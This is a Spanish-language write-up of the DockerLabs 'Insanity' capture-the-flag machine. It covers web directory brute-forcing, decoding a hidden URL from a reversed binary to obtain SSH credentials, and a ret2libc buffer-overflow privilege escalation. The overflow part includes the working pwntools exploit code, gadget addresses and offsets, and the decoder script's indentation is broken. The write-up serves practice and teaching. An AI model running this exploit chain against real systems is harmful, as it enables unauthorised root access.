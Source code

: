 nmap: 22,80

![image](https://github.com/user-attachments/assets/9a5132f3-0a20-4689-8f07-2f6823477b83)

si entramos a la pagina es un apache como nombra en el nmap, entramos al código fuente y nos mostrara esto

![image](https://github.com/user-attachments/assets/5a899861-971f-45a2-beae-b6e4991f89c1)

lanzamos un gobuster 

     gobuster dir -u http://insanity.dl/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x html,php,txt -t 100 -k

y obtenemos 

![[tinyp.png]]

entramamos y obtenemos

![[tinyp2.png]]

los descargamos y ejecutamos

![[chmod.png]]

con secret obtenemos que es una clave incorrecta y con libcredenciales.so da segmentation fault, probando no obtenemos nada. así que vamos a utilizar ghidra para ver el contenido del código 

Lo importante que entendí del código
> Primero que hay un wget así que descarga un archivo
> g(): Define un arreglo de valores o sea local_4d8, local_4d4 y así. 
> usa b() para convertir estos valores en una cadena
> También  llama a "a()" para cada valor en un arreglo de enteros
>o sea vería así: b(long param_1, int param_2, long param_3)

así que basado en esto podemos decodificar con un código python

![[decode2.png]]

con este código lo vamos a lanzar con python3

     def transform_value(value):
    special_cases = {
        0x1B: 0x3A,
        0x1C: 0x2F,
        0x1D: 0x2E,
        0x1E: 0x5F
    }
    
    if value in special_cases:
        return special_cases[value]
    elif 1 <= value <= 0x1A:
        return value + 0x60
    else:
        return 0x3F
        
        def convert_values_to_string(values):
    return "".join(chr(transform_value(value)) for value in values)
    
    values = [
    8, 20, 20, 16, 27, 28, 28, 9, 14, 19, 1, 14, 9, 20, 25, 29, 4, 12, 28, 21,
    12, 20, 18, 1, 30, 19, 5, 3, 18, 5, 20, 30, 6, 15, 12, 4, 5, 18, 11, 13, 1 ]
    result = convert_values_to_string(values)
    print("Resultado:", result)


y obtenemos esto

![[decode.png]]

> http://insanity.dl/ultra_secret_folderkma

![[dockerlabs/dificil/Insanity/credenciales.png]]

tenemos las credenciales de SSH

![[dockerlabs/dificil/Insanity/conexion.png]]

tenemos la conexión ahora vamos buscando y encontramos esto

![[over.png]]

vamos a lanzar ahí mismo 

     gdb -q ./vuln

ahora colocamos los que nos dio el código

     /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400 

![[meta.png]]

ahora en el gdb lanzamos una r y ahora colocamos el resultado

![[resul.png]]

obtenemos este resultado

    0x0000000000401189 in vuln ()

ahora lanzamos en nuestra terminal

    python2 -c 'print("A"*136 + "BBBBBB")'

en el gdb lanzamos run y colocamos el nuevo resultado y obtenemos

    0x0000424242424242 in ?? ()

![[resul2.png]]

entonces cambio porque en el primer "ataque" aparece la protección, si lanzamos un "info frame" mostrara si se ejecuta correctamente pero como se vio muestra la protección, ahora que lanzamos tomando en cuenta el "136" le sumamos las B o sea "136 + 6 B"
y podemos obtener el ultimo resultado. ahora quedaría encontrar la direccion de memoria que seria el "sh"

![[memoria.png]]

veremos si esta ahí y efectivamente esta 

![[memoria2.png]]

ahora seria buscar la dirección de memoria pero de system, con el comando 

    p system

y nos dará

![[system.png]]

encontré este comando que es para ver si se encuentra ahí
 
     ROPgadget --binary ./vuln

de muchas lineas que nos da, nos interesa una

     0x0000000000401016 : ret

así que obtenemos la dirección de ret, ahora buscamos la de pop rdi

     ROPgadget --binary ./vuln | grep "pop rdi"

y me dio

     0x0000000000401165 : mov dl, byte ptr [rbp + 0x48] ; mov ebp, esp ; pop rdi ; nop ; pop rbp ; ret
     0x0000000000401168 : mov ebp, esp ; pop rdi ; nop ; pop rbp ; ret
     0x0000000000401167 : mov rbp, rsp ; pop rdi ; nop ; pop rbp ; ret
     0x000000000040116a : pop rdi ; nop ; pop rbp ; ret
     0x0000000000401166 : push rbp ; mov rbp, rsp ; pop rdi ; nop ; pop rbp ; ret

la que buscábamos es la 

     0x000000000040116a 

ahora con todos los valores creamos un código python que contenga los valores

![[exploit.png]]


este es el código 

     from pwn import *
     binary_path = '/opt/vuln'
     binary = ELF(binary_path)
     p = process(binary_path)
     
     gadgets = {
    "pop_rdi_ret": 0x40116a,
    "ret": 0x401016         
    }
    addresses = {
    "bin_sh": 0x7ffff7f73031, 
    "system": 0x7ffff7e29490  
    }
    
    offset = 136                  
    payload = b"A" * offset        
    payload += p64(gadgets["pop_rdi_ret"])  
    payload += p64(addresses["bin_sh"])     
    payload += p64(gadgets["ret"])         
    payload += p64(addresses["system"])    
    
    def exploit():
    p.sendline(payload)
    p.interactive()
    
    if __name__ == "__main__":
    exploit()


ahora los pasamos a la maquina victima y lo ejecutamos

![[dockerlabs/dificil/Insanity/root.png]]

y somos root! 
